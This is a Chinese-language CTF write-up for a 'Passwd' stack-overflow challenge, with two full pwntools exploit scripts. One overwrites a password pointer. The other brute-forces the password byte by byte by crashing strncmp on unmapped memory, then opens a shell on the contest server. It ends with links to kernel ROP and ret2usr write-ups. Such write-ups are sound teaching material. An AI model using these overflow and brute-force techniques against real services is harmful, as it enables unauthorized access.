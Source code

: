 # pwn

## Passwd（简单的栈溢出，有两种思路可以利用）

### 解题思路一

> 文件读取结束后，相关的缓冲区数据会被清空吗? 不会吧，不会吧

(直接拿郭子仪同学的wp放上来了)

首先nop掉反调试, 恢复结构体   

![struct](assert/struct.png)

其中passwd指向我们读入的数据。
然后函数名字也rename一下。

![fun](assert/fun.png)

然后看一下这个程序实际上在读取的时候可以将name溢出到passwd来修改passwd指针。

![vul](assert/vul.png)

程序使用fopen读取真正的密码，而文件读取结束后相关缓冲区的并不会被清空。所以直接覆盖passwd指针到缓冲区即可。不过要稍微爆破一下。（一开始想复杂了，准备对着mmap一通操作，打freehook）。脚本其实不难，一开始确实想偏了。

#### 最终结果

![res](assert/res.png)

#### exp

``` python
# encoding=UTF-8
from pwn import *

context.terminal='/bin/zsh'
context.arch = "amd64"
context.log_level = "debug"
elf_path = "./passwd"
elf = ELF(elf_path)
libc = ELF("./libc-2.23.so")
ip = "www.povcfe.site"
port = 10001
#io = remote(ip, port)
#io = process(elf_path)

def input_name(buf):
    io.sendlineafter("Name:", buf)

def input_size(size):
    io.sendlineafter("Length Of New Passwd:", str(size))

def input_passwd(buf):
    io.sendlineafter("Passwd:", buf)

yes = "yes"
no = "no"
def yes_no(s):
    io.sendlineafter("yes/no?:", s)

sw = "1"
ac = "2"
def choice(c):
    io.sendlineafter("[2]:Start A New Article", c)


def input_ac(buf):
    io.sendlineafter("Article(end with '#'):", buf)

while 1:
    #io = remote(ip, port)
    
    io = process(elf_path)
    input_name("abcd")
    input_size(24)
    input_passwd("123456")
    choice(sw)
    yes_no(yes)
    
    buf = "admin"
    buf += "\x00"*0xb   # 填充至name结束，16个
    buf += "\xa0\xd2"   # 开始覆盖passwd指针的低位
    input_name(buf)
    # pause()
    # attach(io)
    buf = "a"*0x14
    input_passwd(buf)
    pause()
    attach(io)

    io.interactive()
```

**郭子仪同学一开始陷入误区的原因是认为mmap基地址与libc基地址偏移固定，其实两者的偏移在不同系统上有可能是不同的。换个思路，因为mmap与libc之间一定是以0x1000为基础进行偏移的，所以在这里可以适度爆破mmap与libc之间的固定偏移，那么这题也是可以做出来的**

### 解题思路二

> 考虑一下strncmp函数是怎么判断字符串相等的?

#### 前置知识

strncmp(str1, str2, n) 的实现原理，是通过逐字节比对直至n字节全部比对完毕，中间如果发现某字节不同，则函数返回。所以，假设str1[0]存储于合法地址，但是str1[1]存储于非法地址(无读取权限的地址)，那么如果在比对第一个字节时，str1与str2不同则正常函数返回，反之如果第一个字节相同，函数继续执行并读取第二个字节(str[1]存储于非法地址)，则程序异常退出。

#### 解体思路

通过溢出可以控制passwd指向的地址，并且程序中存在由mmap开辟的固定内存块0x600000000000-0x600000004000，所以如果把passwd指向0x600000004000-1，那么根据程序的返回状态就可以判断第一个字节是否正确，根据这个方法可以把passwd逐字节爆破

#### exp

``` python
from pwn import *
import time
import sys

# sh = process("./passwd")
# ip = sys.argv[1]
#sh = remote("172.16.202.302", 8888)
sh = remote("geekgame.scuctf.com", 10001)
# context.log_level = "debug"

def login(name, passwd_len, passwd):
    sh.recvuntil("[+] Input Your Name:\n")
    sh.sendline(name)
    if(name == "admin"):
        sh.recvuntil("[+] Input Admin Passwd:")
        sh.sendline(passwd)
    else:
        sh.recvuntil("[+] Please Input The Length Of New Passwd:\n")
        sh.sendline(str(passwd_len))
        sh.recvuntil("[+] Input The New Passwd:\n")
        sh.sendline(passwd)


def switch_account(name, passwd):
    sh.recvuntil("[2]:Start A New Article\n")
    sh.sendline("1")
    sh.recvuntil("[+] Are You Sure To Switch Account? yes/no?:\n")
    sh.sendline("yes")
    sh.recvuntil("[+] Input The New Name:\n")
    sh.sendline(name)
    sh.recvuntil("[+] Input The Passwd:\n")
    sh.sendline(passwd)


def new_article(context):
    sh.recvuntil("[2]:Start A New Article\n")
    sh.sendline("2")
    sh.recvuntil("[+] Input The Content Of Article(end with '#'):\n")
    sh.sendline(context)


passwd = b""
num = 0
addr = 0x600000004000

ppp = 0

while(num < 19):
    login(b"povcfe", 22, b"aaa")
    new_article(b"aaaa#")
    addr = addr - 1
    payload = b"admin" + b"a"*11 + p64(addr)
    while(1):
        ppp = ppp+1
        for i in range(0x20, 0x80):
            try:
                try_passwd = passwd + chr(i).encode()
                switch_account(payload, try_passwd)

            except:
                num = num + 1
                passwd = passwd + chr(i-1).encode()
                log.success("one byte is: " + chr(i-1))
                break

        # sh = process("./passwd")
        sh.close()
        # sh = remote("172.16.202.132", 8888)
        sh = remote("geekgame.scuctf.com", 10001)
        break

login(b"povcfe", 22, b"aaa")
new_article("bbb#")

log.success(str(ppp))
addr = 0x600000000000
while(1):
    payload = b"admin" + b"a"*11 + p64(addr)
    for i in range(0x20, 0x80):

        try_passwd = passwd + chr(i).encode()
        log.success(b"try passwd is: " + try_passwd)
        switch_account(payload, try_passwd)
        time.sleep(1)
        sh.sendline(b"echo bll")
        res = sh.recvline()
        if b"bll" in res:
            sh.interactive()
            log.success("over")
            break
    log.success(b"passwd is: " + try_passwd)
break
```

## Kernel_rop（简单的内核栈溢出）

+ 一．Hint中给出学习内核基础知识的链接，同时hint3直接给出解题的详细步骤，只隐藏ROP构造部分，现已补全[经典ROP](https://www.povcfe.site/2020/05/16/kernel-rop/#more)

+ 二．内核栈溢出除了hint给出的经典ROP利用，还可以使用ret2usr的利用方法(这个方法在hint3所给链接的隔壁，我专门把那篇文章放在了博客首行，并且给出了exp，编译之后直接运行就可以提权orz，竟然没人发现) [ret2usr](https://www.povcfe.site/2020/05/17/kernel-ret2usr/#more)